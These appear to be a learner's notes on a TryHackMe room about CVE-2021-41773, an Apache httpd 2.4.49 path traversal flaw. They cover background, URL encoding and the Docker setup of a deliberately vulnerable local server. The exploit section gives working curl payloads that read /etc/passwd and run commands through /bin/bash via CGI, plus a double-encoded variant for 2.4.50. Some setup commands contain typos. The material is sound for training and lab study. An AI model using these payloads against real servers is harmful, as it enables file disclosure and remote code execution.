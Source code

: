 # room
https://tryhackme.com/room/cve202141773

# task 1 - history
* cve-2021-41773 - apache http server v.2.4.49 path traversal attack
* flaw in path normalization
* attacker can use path traversal to map URLs to files outside the expected document root
* if files outside document root are not protected by "require all denied" the requests succeed

# task 2 - path traversal
* a path traversal exploit is an attack that aism to access resources that are normally inaccessible by abusing falws in path resolution and normalization
* normalization
    * absolute path
    * canonical path
    * relative path
* url encoding
    * https://datatracker.ietf.org/doc/html/rfc3986
    * RFC 3986
    * a scheme used to encode special or reserved characters within a URL
    * https://www.w3schools.com/tags/ref_urlencode.asp

# task 3 - review
* vulnerable test
    * docker pull httpd:2.4.49
    * docker run --name vuln-httpd -p 8080:80 -d httpd:2.4.49
    * docker cp vuln-httpd:/usr/local/apache2/conf/httpd.conf .
    * grep -C4 -n "Require all denied" httpd.conf
    * sed "250s/denied/granted/" httpd.conf > httpd.new.conf
    * docker cp http.new.conf vuln-httpd:/usr/local/apache2/conf/httpd.conf
    * docker container restart vuln-httpd
* vulnerable rce
    * docker cp vuln-httpd:/usr/local/apache2/conf/httpd.conf .
    * grep -C4 -n "mod_cgi" httpd.conf
    * sed "184,187s/#//" httpd.conf > httpd.new.conf
    * docker cp httpnew.conf vuln-httpd:/usr/local/apache2/conf/httpd.conf
    * docker container restart vuln-http
* exploit
    * 2.4.49 without CGI enabled
        * curl -v 'http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/etc/passwd
    * 2.4.49 with CGI enabled
        * curl -v 'http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash' -d "echo Content-Type: text/plain; echo; cat /etc/passwd" -H "Content-Type: text/plain"
    * 2.4.50 - double encoded
        * curl 'http://localhost:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd

# task 4 - practical
* practical tasks using what is learned in section 3